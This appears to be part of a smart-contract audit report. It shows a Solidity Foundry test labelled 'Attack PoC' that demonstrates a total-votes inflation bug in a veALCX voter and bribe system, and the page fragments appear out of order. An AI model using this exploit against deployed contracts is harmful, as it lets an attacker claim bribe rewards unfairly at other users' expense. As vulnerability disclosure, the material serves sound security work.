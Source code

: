 ```
    // beef votes with balance x
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // ------------------- Start epoch i+2
    hevm.warp(newEpoch() + 1);
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    // distribution is executed
    voter.distribute();

    hevm.startPrank(admin);
    // user claim rewards
    voter.claimBribes(bribes, tokens, tokenId1);
    hevm.stopPrank();

    // time goes forward
    hevm.warp(block.timestamp + 2);

    hevm.startPrank(beef);
    // beef claim rewards
    voter.claimBribes(bribes, tokens, tokenId2);
    hevm.stopPrank();

}
```

### Attack PoC

Add this test to `src/test/Voting.t.sol`
```
function testTotalVotesInflation() public {

    uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](1);
    tokens[0] = new address[](1);
    tokens[0][0] = bal;

    // in epoch i, attacker votes with balance x
    hevm.prank(admin);
    voter.vote(tokenId1, pools, weights, 0);

    // time goes forward
    hevm.warp(block.timestamp + 2);

    // beef votes with balance x
    hevm.prank(beef);
    voter.vote(tokenId2, pools, weights, 0);

    // ------------------- Start epoch i+1
```